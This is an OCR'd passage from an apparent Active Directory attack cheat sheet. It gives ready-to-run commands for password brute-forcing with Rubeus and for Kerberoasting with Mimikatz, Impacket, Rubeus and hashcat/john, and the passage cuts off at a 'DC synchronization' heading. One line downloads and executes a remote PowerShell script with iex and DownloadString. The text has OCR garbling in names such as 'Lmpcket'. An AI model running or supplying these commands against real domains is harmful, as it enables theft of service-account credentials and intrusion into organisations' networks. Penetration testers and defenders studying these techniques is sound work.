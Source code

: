         -   **Rubeus (windows)**

            -   **with a list of users**

            -   .\\Rubeus.exe brute /users:\<users\_file\> /passwords:\<passwords\_file\> /domain:\<domain\_name\> /outfile:\<output\_file\>

            -   **check passwords for all users in current domain**

            -   .\\Rubeus.exe brute /passwords:\<passwords\_file\> /outfile:\<output\_file\>

    -   **Kerberosting**

        -   Kerberoasting is an attack method that allows an attacker to dump the ticket and crack the passwords of service accounts in Active Directory offline and without fear of detection.

        -   If you got a valid domain user, you may just ask the KDC to issue you a valid TGS for any service. Knowing the fact that SPN attributes can be set to a specific username, and that the TGS is encrypted using service's key (user's key in that case) We can issue a TGS ticket on our own machine, dump the ticket and start an offline bruteforce attack against it to retrieve the plaintext password for that user (service account)!

        -   Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically made for running a service 

        -   The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD

        -   **Get users with SPN tcikets**

            -   GetUserSpn.ps1

        -   **Extract tickets to the disk**

            -   Mimikatz \# Kerberos::list /export

        -   **Lmpcket**

            -   python GetUserSPNs.py \<domain\_name\>/\<domain\_user\>:\<domain\_user\_password\> -outputfile \<output\_TGSs\_file\>

        -   **Rubeus**

            -   .\\Rubeus.exe kerberoast /outfile:\<output\_TGSs\_file\>

        -   **Crack with PowerShell**

            -   iex (new-object Net.WebClient).DownloadString(\"<https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1>\")

            -   Invoke-Kerberoast -OutputFormat \<TGSs\_format \[hashcat \| john\]\> \| % { \$\_.Hash } \| Out-File -Encoding ASCII \<output\_TGSs\_file\>

        -   **Crack with With dictionary passwords**

            -   hashcat -m 13100 \--force \<TGSs\_file\> \<passwords\_file\>

            -   john \--format=krb5tgs \--wordlist=\<passwords\_file\> \<AS\_REP\_responses\_file\>

    -   **DC synchronization**
